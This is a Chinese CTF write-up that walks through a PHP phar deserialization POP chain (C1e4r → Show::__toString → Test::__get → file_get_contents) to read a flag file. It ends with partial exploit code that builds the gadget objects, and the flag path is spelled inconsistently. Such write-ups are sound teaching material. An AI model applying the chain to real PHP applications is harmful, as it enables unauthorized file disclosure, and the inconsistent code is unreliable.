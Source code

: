

从以上源码可以得到如下信息：

1.f1ag.php中但是“f1ag”被过滤了

2.上传的文件类型采用白名单

3.所有源代码均没有出现unserialize()，所以不能采用常规反序列化。同时有注释出现了phar，且phar协议没被过滤，所以这题是PHP反序列化中的phar反序列化。



**具体西路**

Show类中。自带文件读取功能。但是文件名不能带有flag。就算我们能通过phar反序列化后。还是绕不开这层正则匹配。这里就放弃了

![image](https://cdn.nlark.com/yuque/0/2021/png/2770717/1625219922489-362753de-3c78-4630-a72d-287a00de51db.png)

再看看其他类。发现Test类中。有一个魔法函数__get。当调用不存在的函数或属性时。就会自动调用__get函数。get函数又会调用__get。get又调用file_get读取文件。

大致流程就是：`不存在的函数->__get魔法函数->get函数->file_get函数读取`

那么我们就要找一个不存在的调用。

可以看到`$this->str['str']->source`。如果我将str['str']变成Test类。调用source函数。由于Test类没有source函数。就会触发魔法函数。调用__get。也就完成了上面的步骤

![image](https://cdn.nlark.com/yuque/0/2021/png/2770717/1625219922491-fed9e81a-ab79-4762-bd84-e05bbf1c8b38.png)

问题又来了。这个利用点再__toString魔法方法中。此魔术方法是输出时。比如echo什么的才会触发。还得继续找POP链

这不就找到了

![image](https://cdn.nlark.com/yuque/0/2021/png/2770717/1625219922406-d2183bac-cd0d-45b7-b233-af4e08764c11.png)

理一下思路。

```
通过Cle4r。将str赋值为Show类。
this->test=$this->Show类
echo $this->test;
触发Show类中的__tostring魔术方法。进入Show类。执行
$content=$this->str['str']->source;
那么我们将str['str']赋值为Test类。使其调用source。但是不存在。
接下来就进入了Test类。执行
__get($key)。这个$key。其实就是source。
get($key)
$value=this->params['source'];
file_get_contents($value);
由于Test类在构造函数中。定义了params是个数组。那么我们就定义params=array('source'=>'/var/www/html/fl1g.php');
```





```
<?php
class C1e4r{
    public $test;
    public $str;
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params; 
}
$c=new Test();
$c->params=array('source'=>'var/www/html/f1ag.php');
$b=new Show();
$b->str['str']=$c;
```